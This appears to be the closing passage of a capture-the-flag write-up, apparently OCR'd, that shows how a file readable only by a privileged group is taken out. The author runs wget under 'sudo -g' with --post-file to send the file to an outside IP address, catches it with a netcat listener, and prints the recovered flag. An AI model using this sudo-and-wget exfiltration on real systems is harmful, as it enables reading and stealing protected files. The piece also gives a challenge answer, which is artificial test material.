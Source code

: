 ```bash
puppet-master@2a87f3ade358:~$ sudo -g zetatech-maintenance wget --post-file /home/puppet-master/tech.not http://52.15.72.79:15462
```

And magic appears in our second localhost terminal:

```bash
$ nc -lvp 1223       
Listening on [0.0.0.0] (family 0, port 1223)
Connection from localhost 53726 received!
POST / HTTP/1.1
User-Agent: Wget/1.18 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 52.15.72.79:15462
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 266


.___..___.___..__..___..___ __ .  .
  _/ [__   |  [__]  |  [__ /  `|__|
./__.[___  |  |  |  |  [___\__.|  |


:::: Admin Note ::::

Branch the Zetatech Pad to Cybernetic Prosthetic client and use the following generated password.

:: IMTLD{Wh3r3_d03s_HuM4n1tY_3nd}
```

### Flag

> IMTLD{Wh3r3_d03s_HuM4n1tY_3nd}